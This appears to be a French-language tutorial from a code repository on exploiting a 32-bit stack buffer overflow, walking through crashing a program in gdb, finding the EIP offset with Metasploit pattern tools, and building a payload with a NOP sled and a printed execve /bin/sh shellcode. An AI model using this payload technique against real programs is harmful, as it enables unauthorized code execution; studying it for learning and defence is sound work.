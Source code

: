 # Shell Code

## Take Controle of EIP

Avec `gdb`, envoyer un nombre important de 'A' au programme jusqu'a obtenir une erreur soit (`SIGSEGV, Segementation fault`)

```sh
(gdb) run $(python2 -c "print 'A' * 1200")
```

A partir des informations du registre `info registers`, verifier que nous avons bien écrasé sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

## Finding the offset

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour écrasé sur `EIP`

```sh
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```sh
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouver l'`offset` correspondant.

```sh
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note offset (`size-offset`)

Donc il nous faut `size-offset` caractere suivie de notre shellcode. 
En gros tout ce qui se trouve au dela de la taille de notre offset vas etre executer en memoire dans `EBP`

En suite

```sh
(gdb) run $(python2 -c "print 'A'*{size-offset}")
```

Le programme vas planter et on verifie le registrer `ESP`

```sh
(gdb) info frame
(gdb) print $esp 
# => 0xffffcee0
```

## Generating Shellcode

Il faut ecrire la valeur de ESP en envers soit `\xe0\xce\xff\xff` -> `{esp-reverse}`

ShellCode:

```sh
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Executer le programme pour obtenir un shell

```sh
./run $(python2 -c "print 'A'*{size-offset} + '{esp-reverse}' + '\x90'*40 + '{shellcode}'")
```

> __NOTE:__ Si nous avons les caracteres `1�Ph//shh/bin��PS��` il faut augmenter le nombre `NOPs`


